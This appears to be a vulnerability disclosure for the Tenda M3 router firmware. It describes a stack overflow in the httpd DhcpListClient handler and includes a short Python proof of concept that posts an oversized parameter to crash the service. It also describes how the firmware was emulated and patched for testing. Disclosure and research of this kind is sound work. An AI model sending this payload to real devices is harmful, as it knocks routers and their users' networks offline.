


## Overview

- The device's official website: https://www.tenda.com.cn/product/M3.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3133.html

## Affected version

V1.0.0.12(4856)

## Vulnerability details

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `fromDhcpListClient` function, which can be accessed via the URL `goform/DhcpListClient`



The POST parameter `listN` is concatenated. The program copies the POST argument without checking the length. We can set `LISTEN` equal to `1`, the program will enter the red box, causing a stack overflow. Since the overflow overrides the `LISTEN` pointer variable, the `atoi` function will crash the program, causing a DOS attack in the second time looping.

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"LISTLEN": b"1",
    b"list1": b'A'*0x300,
    b"page": b'A'
}
cookies = {
    b"user": "admin"
}
res = requests.post("http://127.0.0.1/goform/DhcpListClient", data=data, cookies=cookies)
print(res.content)
```



I use qemu-arm to emulate it. To make it work, I patched the `httpd` binary:

- In the `main` function, The `ConnectCfm` function didn't work properly, so I patched it to `NOP`.

- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login.

In the main function, the program call the `check_network` function to get the IP address of the `br0` interafce and use it as the listening address. So I create a iterface named `br0` and configure its IP address to `127.0.0.1` .


